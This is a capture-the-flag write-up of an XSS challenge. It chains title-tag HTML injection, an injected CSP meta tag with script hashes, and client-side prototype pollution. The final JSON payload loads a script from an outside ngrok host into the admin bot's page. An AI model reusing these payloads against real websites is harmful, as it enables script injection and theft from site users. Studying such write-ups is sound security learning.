[@chenx3en](https://mobile.twitter.com/chenx3n) created a fun XSS challenge in HackINI 2022 ctf.  

### TL; DR
- HTML injection in the title tag.
- CSP injection.
- Prototype pollution and XSS

###  Overview

When we visit the website [link](https://challenge-creator.challs.shellmates.club/), we will be presented with a form to create a ctf challenge and share it with the admin (bot):



After completing and submitting the form, we see a query parameter named **challenge** that has a JSON string including all of the supplied data. We also observe that the **name** of the challenge appears in the page title (``` <title> </title> ```) . 



The page's source code looks like this; I eliminated certain pieces since they are unnecessary and too long:

```html
<!DOCTYPE html>
<html>
  <head>
	...
    <title>
      Challenge: 'asd'
    </title>
     ...
  </head>
  <body class="bg-gray-50">
	...
    <!-- TODO: Remove this script -->
    <script nonce="U+pF6b1OcmbT1Ld832gOdg==">
      let challenge, jsonCodeOutput;

      challenge = JSON.parse(
        new URL(window.location.href).searchParams.get("challenge")
      );

      console.log("challenge:", challenge);

      jsonCodeOutput = {};
    </script>

    <script nonce="U+pF6b1OcmbT1Ld832gOdg==">
      challenge = {
        name: "Name",
        category: "web",
        value: 100,
        meta: {
          version: "0.1",
        },
      };
      jsonCodeOutput = {
        tag: "code",
        attributes: {
          class: "block overflow-x-scroll rounded language-json",
        },
        id: "json-code-output",
      };

      console.log("default challenge:", challenge);
    </script>

    <script nonce="U+pF6b1OcmbT1Ld832gOdg==">
      const sitekey = "6LcxsckfAAAAAIngUXzlw931eegdBWErvFBPZ_K4";

      function outputChallenge(chal) {
        const jsonOutput = document.getElementById("json-output");
        const shareChallenge = document.getElementById("share-challenge");
        const containerOutput = document.getElementById("container-output");
        const value = JSON.stringify(chal, undefined, 2);
        const el = document.createElement(jsonCodeOutput.tag);

        el.textContent = value;
        el.id = jsonCodeOutput.id;
        for (const [attribute, val] of Object.entries(
          jsonCodeOutput.attributes
        )) {
          el.setAttribute(attribute, val);
        }
        hljs.highlightElement(el);
        jsonOutput.appendChild(el);

        shareChallenge.value = value;

        containerOutput.classList.remove("hidden");
      }

      function parseChallenge() {
        let assignedVal,
          value,
          parsedChal = {},
          chal = null;

        try {
          chal =
            JSON.parse(
              new URL(window.location.href).searchParams.get("challenge")
            ) || null;
        } catch (err) {
          console.error("Error:", err);
        }

        if (chal === null) {
          const containerOutput = document.getElementById("container-output");
          const jsonOutput = document.getElementById("json-output");

          containerOutput.classList.add("hidden");
          jsonOutput.innerHTML = "";
          return;
        }

        for (const [key, defaultValue] of Object.entries(challenge)) {
          value = chal[key];
          console.log("key:", key);
          console.log("defaultValue:", defaultValue);
          console.log("value:", value);
          if (typeof defaultValue === "number") {
            value = parseInt(value);
          }
          assignedVal = value || defaultValue;
          if (
            typeof assignedVal === "object" &&
            typeof defaultValue === "object"
          ) {
            if (parsedChal[key] === undefined) {
              parsedChal[key] = {};
            }
            for (const [subKey, subDefaultValue] of Object.entries(
              defaultValue
            )) {
              let subValue =
                chal[key] !== undefined ? chal[key][subKey] : subDefaultValue;
              console.log("subkey:", subKey);
              console.log("subDefaultValue:", subDefaultValue);
              console.log("subValue:", subValue);
              parsedChal[key][subKey] = subValue;
            }
          } else {
            parsedChal[key] = assignedVal;
          }
        }

        console.log("parsedChal:", parsedChal);
        outputChallenge(parsedChal);
      }

      function submitChallenge(event) {
        event.preventDefault();
        const formData = new FormData(this);
        const query =
          "challenge=" +
          encodeURIComponent(JSON.stringify(Object.fromEntries(formData)));
        window.location.href = `${window.location.origin}/?${query}`;
      }

      function loadCaptcha() {
        grecaptcha.render("captcha-div", {
          sitekey: sitekey,
        });
      }

      function updateHeight(el) {
        el.style.height = "";
        el.style.height = el.scrollHeight + 3 + "px";
      }

      window.onload = () => {
        const challengeForm = document.getElementById("challenge-form");
        const shareChallenge = document.getElementById("share-challenge");

        challengeForm.onsubmit = submitChallenge;

        parseChallenge();

        updateHeight(shareChallenge);
        shareChallenge.oninput = (event) => {
          updateHeight(shareChallenge);
        };

        loadCaptcha();
      };
    </script>
  </body>
</html>
```

Here I can mention something very important:

- The **page title** has an injection point, but the ```<title>``` tag isn't designed to contain child elements, therefore the browser won't parse something that directly enters inside this element as valid HTML:



​		But we can easily bypass this behaviour by simply closing the ```<title>``` tag and follow it with our HTML payload, if we inject something like this:

​		```</title> <h1>asd</h1><title> ``` ,  then the injection went smoothly:




​	 

Is it really that simple? Injecting a ```<script>``` tag is all it takes ?  Well, If we test a payload like ```</title><script>alert(1)</script><title>``` it will be reflected to the page, but no alert will fired, and the reason can be found in the response headers: 



There is a **Content Security Policy CSP** defined. CSP is an additional security measure that helps in the mitigation of specific sorts of attacks, such as XSS. It is used to inform the browser about what should be trusted and what should be rejected. In our case, the injected payload isn't trusted, so the browser will not simply execute it.

And of course, there was some kind of server-side sanitization, as indicated by the fact that our payload was changed to something like this: 



Another interesting part is the ```parseChallenge()``` function which was vulnerable to **Prototype Pollution** in this line: 

​																	``` parsedChal[key][subKey] = subValue; ``` 

Prototype Pollution is a vulnerability in which an attacker can change the properties of ```Object.prototype```.  A typical object inherits attributes from ```Object.prototype``` since practically all JavaScript objects are instances of Object:




So far, we've looked at two different vulnerabilities; in the next parts, I'll explain how I chained them together to solve the challenge. 

### In-Depth Analysis and Bugs Exploit

My teammate [@Fa2y](https://twitter.com/Ahmed_2Yasser) and I first noticed the prototype pollution and potential exploit by glancing at the source code, but it was unexploitable on the second look because we didn't have control over the ```key``` and ```subkey``` since they were coming from the default ``challenge`` object, and then we remembered the first code block where the ``challenge`` object was initialized with our supplied input but then overwritten by the second code block. 

```html
   	<!-- First code block -->
	<script nonce="UQW0jCkPro5PVkUIQytbnQ==">
      let challenge, jsonCodeOutput; 
	
      challenge = JSON.parse(
        new URL(window.location.href).searchParams.get("challenge")
      );

      console.log("challenge:", challenge);

      jsonCodeOutput = {};
    </script>
	<!-- Second code block -->
    <script nonce="UQW0jCkPro5PVkUIQytbnQ==">
      challenge = {
        name: "Name",
        category: "web",
        value: 100,
        meta: {
          version: "0.1",
        },
      };
      jsonCodeOutput = {
        tag: "code",
        attributes: {
          class: "block overflow-x-scroll rounded language-json",
        },
        id: "json-code-output",
      };

      console.log("default challenge:", challenge);
    </script>
```

Our theory at the time was that if the second block could be somehow "skipped", we'd have complete control over the ``key`` and ``subkey``which in returns allows us to pollute the **prototype**. 

But how are we going to achieve it? Is there a way to have the browser reject the second script? 

I paused for a moment and recalled the injection in the page title, which allows us to inject new CSP policy in the <meta> tag to prevent the execution of the second script. 

An example here:  

```html
</title><meta http-equiv="Content-Security-Policy" content="script-src 'self' 'unsafe-eval' 'strict-dynamic'"><title>
```

By injecting this payload, we notice various CSP-related errors in the browser console, indicating that our policy was properly processed: 



As the errors above indicate, we can enable script execution if we supply a valid nonce (which is neither controlled nor guessable) or generate hashes for the whitelist scripts (solution for this scenario).

In this situation, we will use the hashes computed by **Chrome** (alternatively, there are online websites that can calculate script hashes, such as

[csplite](https://csplite.com/csp/sha/)



As a result, our final CSP rule will look like this:

```html
<meta http-equiv="Content-Security-Policy" content="script-src * 'sha256-eyVKju/vSji+klXiXwhgD7spFJI0/Kk10K2eq4a9NCU=' 'sha256-8+tX0RdD8rNbWDDLNb3z8ixoi28g7G5On2AwCBePR0Y=' ">
```

**`script-src *`** : allow all sources for JavaScript (we will use it later to load our script).

**`'sha256-eyVKju/vSji+klXiXwhgD7spFJI0/Kk10K2eq4a9NCU='`** : allow the first script where we can controll `challenge`object .

**`'sha256-8+tX0RdD8rNbWDDLNb3z8ixoi28g7G5On2AwCBePR0Y='`**: allow the third script where the prototype pollution occur.

And we were able to block the execution of the second script: 



Now that we have successfully controlled the `key` and `subkey` and the possiblilty to exploit the prototype pollution, we must seek for anything worthwhile to pollute in the prototype. Returning to the source code, in the `outputChallenge` function, where an html element is created based on the `jsonCodeOutput` object properties. 

```js
function outputChallenge(chal) {
    const jsonOutput = document.getElementById("json-output");
    const shareChallenge = document.getElementById("share-challenge");
    const containerOutput = document.getElementById("container-output");
    const value = JSON.stringify(chal, undefined, 2);
    const el = document.createElement(jsonCodeOutput.tag);

    el.textContent = value;
    el.id = jsonCodeOutput.id;
    for (const [attribute, val] of Object.entries(
        jsonCodeOutput.attributes
    )) {
        el.setAttribute(attribute, val);
    }
    hljs.highlightElement(el);
    jsonOutput.appendChild(el);

    shareChallenge.value = value;

    containerOutput.classList.remove("hidden");
}
```

We may modify the `jsonCodeOutput`  object properties using the prototype pollution vulnerability to inject our script and achieve js code execution. For more details see :  

[Hacktricks prototype pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

The final payload:

```json
{"name":"</title> <meta http-equiv=\"Content-Security-Policy\" content=\"script-src * 'sha256-eyVKju/vSji+klXiXwhgD7spFJI0/Kk10K2eq4a9NCU=' 'sha256-8+tX0RdD8rNbWDDLNb3z8ixoi28g7G5On2AwCBePR0Y=' \"><title>","category": "asd", "value":"1337", "__proto__":{"tag":"script","attributes":{"src":"https://9e31-105-235-137-14.ngrok.io/xss.js", "id": "vvxhid"}}}
```



### References
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
  - https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution